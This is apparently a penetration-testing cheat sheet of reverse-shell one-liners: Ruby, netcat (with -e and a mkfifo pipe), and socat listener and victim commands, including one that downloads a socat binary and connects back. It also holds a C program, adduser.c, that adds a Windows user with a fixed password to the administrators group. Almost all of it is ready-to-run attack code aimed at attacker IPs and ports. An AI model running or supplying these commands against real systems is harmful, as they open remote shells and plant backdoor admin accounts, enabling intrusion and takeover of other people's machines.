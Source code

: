 ```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
#### NETCAT

```
nc -e /bin/sh 10.0.0.5 1234

nc -nv 192.168.45.227 3000 -e /bin/bash

```

```
#OpenBSD netcat doesn't support -e flag. You can even try BASH 1-liner

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
#### Adduser.c

On the Attacking machine compile it first: `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe, then transfer it to Victim`

```
# ADDUSER.C

#include <stdlib.h>

int main ()

{

int i;

i = system ("net user test password123! /add");

i = system ("net localgroup administrators test /add");

return 0;

}
```

#### Socat

```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444
#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

or Socat Command Injection one liner:
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

